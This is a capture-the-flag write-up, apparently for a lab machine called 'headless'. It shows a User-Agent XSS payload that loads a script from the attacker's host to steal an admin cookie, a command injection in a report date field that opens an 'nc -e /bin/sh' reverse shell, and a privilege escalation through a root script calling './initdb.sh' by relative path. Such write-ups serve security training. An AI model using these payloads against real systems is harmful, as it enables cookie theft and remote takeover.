








The support page has a form we can submit to message staff. When we try an XSS payload we get an error.

We have XSS in the User-Agent header


POST /support HTTP/1.1Host: 10.10.11.8:5000User-Agent:<script src="http://10.10.14.22/script.js"></script> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedContent-Length: 76Origin: http://10.10.11.8:5000Connection: closeReferer: http://10.10.11.8:5000/supportCookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_ZfsUpgrade-Insecure-Requests: 1
fname=test&lname=test&email=test%40test.com&phone=333333333&message=<script>
Using our notes from the XSS lab we create a script.js file and a index.php file. The webserver will reach out to our machine and grab both files and give us the cookie.

c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Now we can access /dashboard

And we have simple RCE when generating a report

Payload for a shell
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 246
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Zfs; is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
date=2023-09-15;nc -e /bin/sh 10.10.14.22 9999
We can run /usr/bin/syscheck as root
dvir@headless:/tmp/pwn$ cat /usr/bin/systemcheck
cat: /usr/bin/systemcheck: No such file or directory
dvir@headless:/tmp/pwn$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
/usr/bin/echo "Database service is not running. Starting it..."
./initdb.sh 2>/dev/null
else
/usr/bin/echo "Database service is running."
fi
When I first looked at this it runs a file without the full path as we see here ./initdb.sh 2>/dev/null
I created a rev shell but I forgot to chmod +x it so it never worked. I then figured this wasnt the right path and spent hours looking elsewhere and couldnt find anything.
I looked up a guide and saw he did what I did but did chmod first. Once I did that the exploit worked. I am an idiot.

